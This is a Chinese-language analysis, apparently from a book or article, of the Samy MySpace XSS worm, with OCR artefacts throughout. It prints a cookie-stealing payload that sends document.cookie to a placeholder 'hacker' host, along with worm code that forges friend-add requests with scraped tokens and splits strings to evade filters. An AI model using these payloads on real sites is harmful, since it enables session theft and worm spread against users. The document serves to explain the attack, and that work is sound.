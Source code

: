 ```php+HTML ">var+img=new+Image();img.src=&quot;<a href="http://hacker/”%20+%20document.cookie">http://hacker/”%20+%20document.cookie</a>;
        xmlhttp2.open(BJ, BH, true);
        if (BJ == 'POST') {
            xmlhttp2.setRequestHeader('Content - Type', 'application / x - www - form - urlencoded'); xmlhttp2.setRequestHeader('Content - Length', BK.length)
        }
        xmlhttp2.send(BK); return true
    }

上面函数的回调函数如下：

    function processxForm() {
        if (xmlhttp2.readyState != 4) {
            return
        }
        var AU = xmlhttp2.responseText;
        var AQ = getHiddenParameter(AU, 'hashcode');
        var AR = getFromURL(AU, 'Mytoken');
        var AS = new Array();
        AS['hashcode'] = AQ;
        AS['friendID'] = '11851658';
        AS['submit'] = 'Add to Friends';
        httpSend2(' / index.cfm ? fuseaction = invite.addFriendsProcess & Mytoken = ' + AR,
            nothing, 'POST', paramsToString(AS))
    }

* * *

    var AA = g();   // 代码这里获取页面的代码 
    var AB = AA.indexOf('m' + 'ycode');
    var AC = AA.substring(AB, AB + 4096);
    var AD = AC.indexOf('D' + 'IV');
    var AE = AC.substring(0, AD);
    // 这里的这几行，对页面的内容进行截取操作

这里对页面的内容进行获取，截取出需要的段。

    var B = String.fromCharCode(34);
    var A = String.fromCharCode(39);    // 这里的是 JS 的从AsCII 转字符的函数
    // 对应的是 ' 与 " 
    ...
    if (AE) {
        AE = AE.replace('jav' + 'a', A + 'jav' + 'a');
        AE = AE.replace('exp' + 'r)', 'exp' + 'r)' + A);
        AF = 'but most of all,samy is my hero. < d' + 'iv id = ' + AE + 'D' + 'IV > '
    }
    

这里如果存在了 目标的 内容，那么构造AE与AF 两段内容

Summary
-------

通过这本书,或者是这篇文章,简单的了解了一个XSS蠕虫的实现，以及其传播的原理，借助WEB层面的功能，通过用户的操作伪造，实现对samy 关注，和对自己的 profile 进行修改的功能，从而实现了 这个蠕虫的大面积传播。